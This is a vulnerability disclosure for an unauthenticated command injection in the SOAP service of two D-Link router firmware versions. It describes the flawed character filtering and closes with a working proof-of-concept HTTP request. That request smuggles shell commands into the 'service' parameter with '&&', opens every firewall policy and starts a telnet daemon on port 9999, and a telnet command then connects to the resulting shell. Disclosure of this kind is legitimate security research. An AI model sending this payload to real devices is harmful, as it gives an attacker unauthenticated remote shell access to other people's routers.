 # D-Link Unauthenticated OS Command Injection

**Vender**: D-Link

**Firmware version**:
DIR-818LW_REVA_PATCH_2.05.B03,
DIR-860L_REVB_2.03.B03

**Exploit Author**: pr0v3rbs@kaist.ac.kr

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:
https://support.dlink.com/ProductInfo.aspx?m=DIR-818LW,
https://support.dlink.com/ProductInfo.aspx?m=DIR-860L

## Vul detail ##

I found unauthenticated remote code execution vulnerability in `soapcgi_main` function of `cgibin` binary.

On the `/soap.cgi` service in `49152` port, with the `service` parameter, the unauthenticated remote attacker can execute the shell command.

The similar vulnerability already exists with [CVE-2018-6530](https://github.com/TheBeeMan/Pwning-multiple-dlink-router-via-SOAP-proto#0x04-details---lan---revab---command-injection-in-soap-controltype-url-interface), and some firmware was already added character sanitizing with `strchr` function.

However, on the firmware DIR-818LW_REVA_PATCH_2.05.B03, DIR-860L_REVB_2.03.B03; they not fully filtered the vulnerable character.

![](JEB.png)

With `&&` string, the device can be exploited, too.

## POC

```
# nc 192.168.0.1 49152
POST /soap.cgi?service=&&iptables -P INPUT ACCEPT&&iptables -P FORWARD ACCEPT&&iptables -P OUTPUT ACCEPT&&iptables -t nat -P PREROUTING ACCEPT&&iptables -t nat -P OUTPUT ACCEPT&&iptables -t nat -P POSTROUTING ACCEPT&&telnetd -p 9999&& HTTP/1.1
Host: 192.168.0.1:49152
Accept-Encoding: identity
Content-Length: 16
SOAPAction: "whatever-serviceType#whatever-action"
Content-Type: text/xml

# telnet 192.168.0.1 9999
```

